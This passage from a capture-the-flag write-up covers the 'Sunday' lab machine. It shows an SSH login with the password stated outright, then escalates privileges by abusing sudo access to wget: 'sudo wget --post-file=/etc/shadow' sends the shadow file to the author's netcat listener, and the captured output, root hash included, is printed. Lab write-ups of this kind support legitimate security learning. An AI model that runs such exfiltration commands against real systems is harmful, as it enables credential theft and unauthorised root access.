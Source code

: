 So we can log in trhough SSH with ``sammy:cooldude!`` and read user:

*Getting user hash*

![Img](/assets/posts_details/Sunday/images/user.png)

### Privilege escalation

Being Sammy, I decided to run ``sudo -l`` and found something interesting: we can run wget as root!

*Output of ``sudo -l``*

![Img](/assets/posts_details/Sunday/images/wget-sudo.png)

The plan is the following: I'll run wget as root to post some data (a file) to my own machine and then listen with netcat. The command is:

```sh
sudo wget --post-file=/etc/shadow 10.10.15.6:8002
```

*Output of command (in box)*

![Img](/assets/posts_details/Sunday/images/wget_output.png)

*Output of command (in my local machine)*

```console
parallels@ubuntu:~/Desktop/Sunday$ nc -lnvp 8002
Listening on [0.0.0.0] (family 0, port 8002)
Connection from [10.10.10.76] port 8002 [tcp/*] accepted (family 2, sport 43242)
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.6:8002
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 634

root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
```